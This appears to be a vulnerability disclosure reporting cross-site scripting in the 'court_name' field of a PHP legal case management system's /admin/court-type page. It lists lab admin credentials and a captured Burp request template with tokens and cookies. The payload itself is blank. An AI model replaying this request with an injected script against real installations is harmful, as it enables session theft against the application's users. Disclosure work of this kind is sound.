

## Legal Case Management System

## XSS on `/admin/court-type`

### Vendor Homepage:

```
https://www.campcodes.com/projects/php/legal-case-management-system/
```

### Version:

```
V1.0
```

### Tested on:

```
PHP, Apache, MySQL
```

### Credentials:

```
http://192.168.150.131/admin/login
superadmin@gmail.com
12345678Ab@
```

### Affected Page:

```
/admin/court-type
```

The parameter `court_name`  is being echoed directly into the HTML without proper sanitization or validation. This allows an attacker to inject arbitrary JavaScript code into the page, leading to XSS attacks.

### Proof of Concept:

Payload:

```

```

Burp Request:

```
POST /admin/court-type HTTP/1.1
Host: 192.168.150.131
Content-Length: 275
Accept: */*
DNT: 1
X-CSRF-TOKEN: ULMyHyzFjMsFtMuhHe7fZNzX3Wzq3QzrNCAeTRLy
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/124.0.0.0 Safari/537.36 Edg/124.0.0.0
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryIYei4fWYnUSr5c7S
Origin: http://192.168.150.131
Referer: http://192.168.150.131/admin/court-type
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6
Cookie: XSRF-TOKEN=eyJpdiI6IjdITGtBc1huRXBGcTVEUmZDSGJCQ2c9PSIsInZhbHVlIjoiV0RTb1pnVnFyS3Y5RUExRHQ5eTRhNUlvM2pIQjZnSE5oQ1AwMHhUVnowaVlmR3V2Sm9IWXFjOG5LbjV6K2l0dSIsIm1hYyI6ImNiNWE5NDVkMjM0OTUxN2QwMGZhNzU0YjQxM2VlZDQ2NTVjMzE1ZjA5MDZmNzlkMDUzZGFiNzA4NTc2MTNlNTcifQ%3D%3D; test_session=eyJpdiI6InE1S3hcL2p6UTdUakYyR1dWMmV0dnFBPT0iLCJ2YWx1ZSI6ImZYTTVoTDhvbVV5WHVYQnpPS1YrSGphVkJtbUVuWERjYjhnTkdxWGtUak1BdGMxRWlVY01EUzhRTVBjTGpQaUQiLCJtYWMiOiIyM2UzZDgyNjVmMWYyZDA1MGYxM2ZjZGQ1MWNlMzY1MzhjYTY4NThiNDJiZmZkNDkyNzhhNDFlMzg5MjRiOGZmIn0%3D
Connection: close

------WebKitFormBoundaryIYei4fWYnUSr5c7S
Content-Disposition: form-data; name="_token"

ULMyHyzFjMsFtMuhHe7fZNzX3Wzq3QzrNCAeTRLy
------WebKitFormBoundaryIYei4fWYnUSr5c7S
Content-Disposition: form-data; name="court_name"


------WebKitFormBoundaryIYei4fWYnUSr5c7S--

```

### Screenshot


